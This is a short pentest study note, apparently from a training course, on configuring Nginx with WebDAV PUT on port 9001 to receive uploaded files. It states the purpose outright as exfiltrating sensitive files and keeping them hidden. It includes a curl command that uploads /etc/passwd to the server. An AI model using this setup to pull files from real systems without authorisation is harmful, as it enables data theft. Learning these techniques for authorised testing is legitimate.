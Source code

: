 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

# Nginx configuration

## Installing Nginx 
````bash
sudo apt update
sudo apt install nginx
````

After installing it, you already have everything you need.

You can point your browser to your server IP address (http://localhost) or w/e IP-address you have. You should see this page:
![NGINX-Server](https://ubuntucommunity.s3.dualstack.us-east-2.amazonaws.com/original/2X/7/7504d83a9fe8c09d861b2f7c49e144ac773f0c0d.png)

## Setting up POST method

1. Create a directory to handle uploaded files.
````bash  
sudo mkdir -p /var/www/uploads/SecretUploadDirectory
````
2. Change the owner to www-data.
````bash  
sudo chown -R www-data:www-data /var/www/uploads/SecretUploadDirectory
````
3. Create the NGINX Configuration file, by creating the file /etc/nginx/sites-available/upload.conf with the contents:
````vim
server {
	listen 9001;
	
	location /SecretUploadDirectory/ {
		root	/var/www/uploads;
		dav_methods	PUT;
	}
}
````
4. Symlink our site to the sites-enabled directory.
````bash 
sudo ln -s /etc/nginx/sites-available/upload.conf /etc/nginx/sites-enabled/
````

5. Start nginx.

````bash  
sudo systemctl restart nginx.service
````

6. If we get any error messages, be sure to check /var/log/nginx/error.log. If using Pwnbox, we will see port 80 is already in use.

````bash
tail -2 `/var/log/nginx/error.log`

2020/11/17 16:11:56 [emerg] 5679#5679: bind() to 0.0.0.0:`80` failed (98: A`ddress already in use`)
2020/11/17 16:11:56 [emerg] 5679#5679: still could not bind()

ss -lnpt | grep `80`

LISTEN 0      100          0.0.0.0:80        0.0.0.0:*    users:(("python",pid=`2811`,fd=3),("python",pid=2070,fd=3),("python",pid=1968,fd=3),("python",pid=1856,fd=3))

ps -ef | grep `2811`

user65      2811    1856  0 16:05 ?        00:00:04 `python -m websockify 80 localhost:5901 -D`
root        6720    2226  0 16:14 pts/0    00:00:00 grep --color=auto 2811
````

7. We see there is already a module listening on port 80. To get around this, we can remove the default NGINX Configuration which binds on port 80.
````bash
sudo rm /etc/nginx/sites-enabled/default
````

8. Restart Nginx like in point 5
````bash  
sudo systemctl restart nginx.service
````

Now we can test upload by using cURL to send a PUT request. In the below example, we will upload the /etc/passwd file to the server and call it users.txt

````bash 
curl -T /etc/passwd http://localhost:9001/SecretUploadDirectory/users.txt
tail -1 /var/www/upload/SecretUploadDirectory/users.txt 

user65:x:1000:1000:,,,:/home/user65:/bin/bash
````
Once we have this working, a good test is to make sure "File Listings" is not available by navigating to "http://localhost/SecretUploadDirectory". By default, with Apache, if we hit a directory without an index file (index.html), it will list all the files. This is bad for our use case of exfilling files because most of the files are sensitive by nature, and we want to do our best to hide them. Thanks to `NGINX being minimal, features like that are not enabled by default.
